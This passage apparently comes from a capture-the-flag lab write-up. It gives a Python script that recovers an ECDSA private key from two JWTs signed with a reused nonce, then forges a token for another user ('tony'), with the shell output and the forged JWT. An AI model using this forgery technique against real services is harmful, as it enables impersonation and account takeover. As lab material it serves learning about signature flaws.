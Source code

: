 ```
jwt2 = "eyJhbGciOiJFUzI1NiJ9.eyJ1c2VybmFtZSI6InRpY2siLCJlbWFpbCI6InRpY2tAdGVzdC5jb20iLCJhY2NvdW50X3N0YXR1cyI6dHJ1ZX0.eYnS_vULThniQuqVB4EoIAQ6QPx1-xBxeCubuZRr8S64_wtMsP6v7COaHTEBKLwT7QonLoHPnnx98CoXc0Kdew"  

head1, data1, sig1 = jwt1.split(".")
head2, data2, sig2 = jwt2.split(".")

msg1 = f"{head1}.{data1}"
msg2 = f"{head2}.{data2}"

h1 = bytes_to_long(hashlib.sha256(msg1.encode()).digest())
h2 = bytes_to_long(hashlib.sha256(msg2.encode()).digest())

_sig1 = bytes_to_long(unb64(sig1))
_sig2 = bytes_to_long(unb64(sig2))

sig1 = Signature(_sig1 >> 256, _sig1 % (2 ** 256))
sig2 = Signature(_sig2 >> 256, _sig2 % (2 ** 256))

r1, s1 = sig1.r, sig1.s
r2, s2 = sig2.r, sig2.s

G = generator_256
q = G.order()

valinv = libnum.invmod(r1 * (s1 - s2), q)
d = (((s2 * h1) - (s1 * h2)) * (valinv)) % q

valinv = libnum.invmod((s1 - s2), q)
k = ((h1 - h2) * valinv) % q

pubkey = Public_key(G, G * d)
privkey = Private_key(pubkey, d)

data = {'username': 'tony', 'email': 'tony@amzcorp.local', 'account_status': True}

print(create_jwt(data))
```

Then run the script
```
┌──(wither㉿localhost)-[~/Templates/htb-labs/AWS]
└─$ python exploit.py                          
eyJhbGciOiJFUzI1NiJ9.eyJ1c2VybmFtZSI6InRvbnkiLCJlbWFpbCI6InRvbnlAYW16Y29ycC5sb2NhbCIsImFjY291bnRfc3RhdHVzIjp0cnVlfQ.eYnS_vULThniQuqVB4EoIAQ6QPx1-xBxeCubuZRr8S7X5jjqsXFAHe8b4n_jrtu72hnnNsocZbTTQ6VkHiFmrA 
```

Then exchange it, we can take into tony role